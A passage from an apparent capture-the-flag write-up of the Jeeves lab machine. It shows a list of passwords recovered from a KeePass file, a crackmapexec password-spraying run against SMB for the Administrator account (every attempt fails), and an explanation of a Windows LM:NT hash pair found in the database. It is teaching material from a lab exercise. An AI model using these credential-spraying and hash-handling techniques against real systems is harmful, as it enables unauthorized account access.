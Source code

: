 
### Try Passwords

I’ll collect the ones that look like passwords into a list:

    
    
    oxdf@hacky$ cat passwords 
    12345
    S1TjAtJHKsugh9oC4VZl
    pwndyouall!
    F7WhTrSFDKB6sxHU1cUn
    lCEUnYPjNfIuPZSzOySA
    Password
    

I’ll pass that to `crackmapexec` for the Administrator user, but none work:

    
    
    oxdf@hacky$ crackmapexec smb 10.10.10.63 -u Administrator -p passwords 
    SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:12345 STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:pwndyouall! STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:Password STATUS_LOGON_FAILURE
    

### Try Hash

#### LM and NT Hashes

The first entry in the KeePass, “Backup”, provided what looks like a Windows
hash:

    
    
    aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
    

Windows will show hashes in the format `LM Hash:NT Hash`. LM is the much less
secure hash format used in legacy Windows systems. It’s typically not used,
but kept around for backwards compatibility. Many times, the LM hash for the
blank password is stored, which is ignored by Windows but allows the field not
to be empty. `aad3b435b51404eeaad3b435b51404ee` is the LM hash of the empty
password.

#### Crack Failures
